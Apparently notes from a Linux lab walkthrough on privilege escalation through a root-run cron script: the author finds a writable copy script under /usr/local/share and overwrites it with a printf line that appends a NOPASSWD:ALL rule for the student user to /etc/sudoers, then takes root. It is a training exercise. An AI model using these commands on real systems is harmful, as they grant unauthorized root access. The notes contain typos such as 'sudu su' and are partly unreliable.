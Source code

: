 
- /etc/crontab
- find / -name message

we found 2 files which are the same name called message 
: This means there is some script/binary which is copying this file from student home directory to /tmp directory. 
Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it.
Try to locate that by using grep command. On trying on different directories one by one (i.e. /, /etc, /opt) and on /usr directory, a match has been found.
starting from the The root directory "/" is also commonly referred to as the "root filesystem" to other files
1. /bin
2. /boot
3. /dev
4. /etc
5. /home
6. /lib
7. /media
8. /mnt
9. /opt
10. /proc
11. /root
12. /run
13. /sbin
14. /srv
15. /sys
16. /tmp
17. /usr
18. /var
- grep -nri “/tmp/our_file” /usr

Check the permissions on this script file and its contents. Commands 
- ls -l /usr/local/share/copy.sh
- cat /usr/local/share/copy.sh
to check if you have nay editors 
- cronjob -e 
in our case we cant use any editors 
Use printf to replace the original code with the following lines. Code: 
- printf '#! /bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
- cat /usr/local/share/copy.sh
check what permissions we have 
- sudo -l (we should have NOPASSWD on all permissions)
- sudu su 
done
